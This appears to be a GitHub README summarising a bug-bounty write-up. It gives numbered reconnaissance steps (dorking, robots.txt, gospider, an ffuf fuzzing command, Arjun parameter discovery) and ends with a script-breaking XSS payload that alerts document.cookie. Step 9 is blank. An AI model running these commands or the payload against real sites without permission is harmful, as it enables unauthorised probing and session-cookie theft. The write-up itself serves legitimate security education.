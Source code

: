 # How reading robots.txt file got me 4 XSS reports? 💡💡

### 1. Start doing Google Dorking [Found Nothing]

### 2. Searched for the domain name at Wayback archive [Found Nothing]

### 3. Opened robots.txt file to see what the developer hide from us

### 4. Open source code > Search for any secrets or endpoints > [Found Nothing]

### 5. Open JS files > Use any tool like gospider to extract secrets and Endpoints > [Found Nothing]

### 6. Let’s FUZZ
`ffuf -u https://sub.domain.com/admin/FUZZ -w aspfiles.txt -mc 200`

### 7. Found Endpoint:
`https://sub.domain.com/admin/colorpicker_IEPatch.asp`

### 8. Use Arjun to find hidden parameter
`arjun -u https://sub.domain.com/admin/colorpicker_IEPatch.asp`

### 9. 

### 10. Payload: 
`</script><img src=x onerror=alert(document.cookie)>`


## Credit
Based on [Ahmed Qaramany](https://c0nqr0r.medium.com/reading-robots-txt-got-me-4-xss-reports-9fd2234c635f)'s writeup.
<br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or
<br><br><a href="https://www.buymeacoffee.com/NafisiAslH" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>
